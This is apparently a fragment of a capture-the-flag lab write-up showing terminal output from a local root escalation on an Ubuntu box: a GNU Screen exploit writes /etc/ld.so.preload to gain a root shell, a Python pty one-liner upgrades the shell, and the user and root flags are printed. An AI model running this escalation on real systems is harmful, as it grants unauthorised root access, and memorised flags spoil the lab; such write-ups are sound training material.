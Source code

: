 ```
     execvp("/bin/sh", NULL, NULL);
     ^
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
 from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-joker.

# python3 -c 'import pty;pty.spawn("/bin/bash")'

root@ubuntu:/etc#
```

```bash
root@ubuntu:/etc# cat /root/root.txt
'THM{5ecd98aa66a6abb670184d7547c8124a}'
root@ubuntu:/etc# cat /home/joker/user.txt
'THM{d5781e53b130efe2f94f9b0354a5e4ea}'
root@ubuntu:/etc# 

```